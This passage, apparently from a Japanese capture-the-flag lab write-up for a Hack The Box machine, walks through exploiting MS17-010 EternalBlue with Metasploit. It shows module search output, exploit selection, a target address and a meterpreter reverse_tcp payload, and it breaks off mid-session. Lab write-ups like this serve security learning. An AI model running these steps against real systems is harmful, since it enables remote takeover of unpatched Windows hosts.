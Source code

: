 ![スクリーンショット 2020-06-15 17.01.52.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/88c8a374-bd9e-5b18-36d6-f0c6b3f048ca.png)

権限はnt authority\systemとなっているのでこれで終了です。
お疲れ様でした。


# おまけ
metasploitを使ってMS17-010 EternalBlueを攻略してみます。


```
msf5 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):
```